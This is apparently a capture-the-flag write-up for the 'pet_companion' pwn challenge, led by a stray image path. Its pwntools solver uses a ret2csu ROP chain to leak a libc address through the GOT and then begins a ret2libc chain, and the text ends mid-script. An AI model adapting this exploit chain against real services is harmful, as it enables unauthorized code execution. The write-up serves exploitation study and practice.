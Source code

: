 After we get the leak with the usual way, we perform a `retlibc` attack.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './pet_companion' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP}:{PORT}\n')

e    = ELF(fname)
libc = ELF(e.runpath.decode() + 'libc.so.6')

'''
Gadget 1:
   0x000000000040073a <+90>:  pop    rbx
   0x000000000040073b <+91>:  pop    rbp
   0x000000000040073c <+92>:  pop    r12
   0x000000000040073e <+94>:  pop    r13
   0x0000000000400740 <+96>:  pop    r14
   0x0000000000400742 <+98>:  pop    r15
   0x0000000000400744 <+100>: ret

Gadget 2:
   0x0000000000400720 <+64>:  mov    rdx,r15
   0x0000000000400723 <+67>:  mov    rsi,r14
   0x0000000000400726 <+70>:  mov    edi,r13d
   0x0000000000400729 <+73>:  call   QWORD PTR [r12+rbx*8]
'''

# ret2csu to leak libc address
r.sendline(flat({
  0x48: p64(e.sym.__libc_csu_init + 90)    + 
        p64(0) + p64(1) + p64(e.got.write) +
        p64(1) + p64(e.got.write) + p64(8) +
        p64(e.sym.__libc_csu_init + 64)    +
        p64(0) * 7 + p64(e.sym.main)
}))

# Calculate libc base
libc.address = u64(r.recvline_contains('\x7f')) - libc.sym.write
print(f'Libc base: {libc.address:#04x}')

# ret2libc
rop = ROP(libc, base=libc.address)
```